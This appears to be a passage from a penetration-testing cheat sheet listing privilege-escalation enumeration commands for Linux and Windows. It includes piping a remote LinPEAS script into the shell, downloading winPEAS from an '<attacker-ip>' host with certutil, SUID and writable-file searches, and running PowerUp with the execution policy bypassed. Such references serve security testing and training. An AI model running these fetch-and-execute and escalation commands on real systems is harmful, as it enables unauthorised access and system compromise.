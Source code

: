 #### Privilege Escalation
Automated Enumeration:
```bash
# Transfer and Run LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Process Monitor
# Download and run pspy
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
chmod +x pspy64
./pspy64

# Manual Checks
find / -perm -4000 2>/dev/null
find / -type f -writable 2>/dev/null
crontab -l
ls -la /etc/cron*
```

### Windows Systems

#### Initial Enumeration
```batch
REM System Information
systeminfo
whoami /all
net user
net localgroup administrators

REM Network Information
ipconfig /all
route print
netstat -ano

REM Running Services
tasklist /v
wmic service list brief
```

#### Privilege Escalation
```batch
REM Transfer WinPEAS
certutil.exe -urlcache -f http://<attacker-ip>/winPEAS.exe winPEAS.exe

REM Execute WinPEAS
winPEAS.exe

REM Alternative: PowerUp.ps1
REM PowerUp
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```
